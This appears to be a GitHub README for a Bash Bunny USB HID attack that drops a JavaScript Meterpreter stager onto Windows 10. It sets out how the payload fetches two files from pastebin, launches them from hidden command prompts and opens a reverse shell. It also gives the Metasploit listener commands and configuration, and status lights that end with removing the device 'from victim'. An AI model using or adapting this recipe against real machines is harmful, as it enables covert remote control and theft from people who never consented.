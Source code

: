 JavaScript Meterpreter Stager Win x86_64

Author: subinacls
Version: Version 0.1
Target: Windows 10 x64

Description:

  - Tested successful on Win10
  - Modified from original posted code:
    - https://github.com/Cn33liz/JSMeter/blob/master/JSMeter.js
  - USB HID Attck that attempts HTTP download of two (2) additional payloads.
  - These files coinsist of:
    - BB-Meterpreter-Winx64.js -> Actual bytecode of Meterpreter Stager payload
    - inv.vbs -> creates hidden command terminal to execute commands
  - Attempts to execute the malicious payload in an automated fashion from hidden cmd prompts

Script Logic:

  - STAGE1():
    - if payload does not exist on target:
      - if inet connection:
        - Attempts HTTPS connection to pastebin
          - Grabs both payloads and save to %temp%
      - else:
        - Opens a cmd prompt, under current users context
          - Echo contents to two files:
            - BB-Meterpreter_winx64.js
            - inv.vbs
  - STAGE2():
    - Executes hidden cmdshell via inv.vbs, launching payload
  - STAGE3():
    - Shutdown 0

Configuration:

  - Listener:
    - use exploit/multi/handler
    - # use for x64
    - set PAYLOAD windows/x64/meterpreter/reverse_tcp
    - # use for x86
    - set PAYLOAD windows/meterpreter/reverse_tcp
    - set LHOST 0.0.0.0
    - set LPORT 443
    - set EnableUnicodeEncoding true
    - set EnableStageEncoding true
    - set ExitOnSession false
    - exploit -j
  - BashBunny:
    - Edit JSRevMeter replacing the following:
      - RHOST =>  Remote Listening Host
      - RPORT =>  Remote Listening Port
      - FILE1 =>  Payload file1 URL, ex: http://t.co/43rg67
      - FILE2 =>  Payload file1 URL, ex: http://t.co/8ry8h0
    - Upload monilithic script to your BB

Status:

  - LED	  =>  Status/PHASE
  - Green	=>  Stage1/EXECUTING
  - Red	  =>  Stage2/EXECUTING
  - Blue  =>  Stage3/SHUTDOWN
  - OFF   =>  Remove Device from victim
